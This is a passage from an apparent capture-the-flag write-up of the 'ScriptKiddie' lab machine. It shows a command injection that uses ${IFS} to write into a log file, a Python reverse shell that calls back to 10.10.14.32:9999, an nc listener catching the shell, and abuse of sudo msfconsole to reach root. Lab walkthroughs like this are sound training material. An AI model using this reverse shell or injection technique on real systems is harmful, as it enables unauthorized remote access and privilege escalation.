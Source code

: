 ### 5. Lateral movement
After lengthy experimentation, I finally find a way to get a shell as the pwn user. Using two commands, I create a python file in the user's directory and run it.
```bash
kid@scriptkiddie:~/logs$ echo ";\$\{IFS\}echo\$\{IFS\}'import'\$\{IFS\}'socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",9999));os.dup2(s.fileno(),0);'\$\{IFS\}'os.dup2(s.fileno(),1);'\$\{IFS\}'os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'>/home/pwn/runme.py;" >> hackers
kid@scriptkiddie:~/logs$ cat /home/pwn/runme.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

echo ";\$\{IFS\}python3\$\{IFS\}/home/pwn/runme.py;" >> hackers
```
Catch the shell in the nc listener.
```bash
┌──(kali㉿kali)-[~/Desktop/htb/scriptkiddie]
└─$ nc -lvnp 9999                              
listening on [any] 9999 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.226] 34074
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```

### 6. Enumerate from other user
Check sudo permissions:
```bash
pwn@scriptkiddie:~/recon$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
The pwn user can run msfconsole as root.

### 7. Escalate to root
Through the msfconsole I can execute ordinary shell commands. I can also just straight-up run bash and get a root shell.
```bash
pwn@scriptkiddie:~/recon$ sudo /opt/metasploit-framework-6.0.9/msfconsole
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

msf6 > whoami
whoami
[*] exec: whoami
```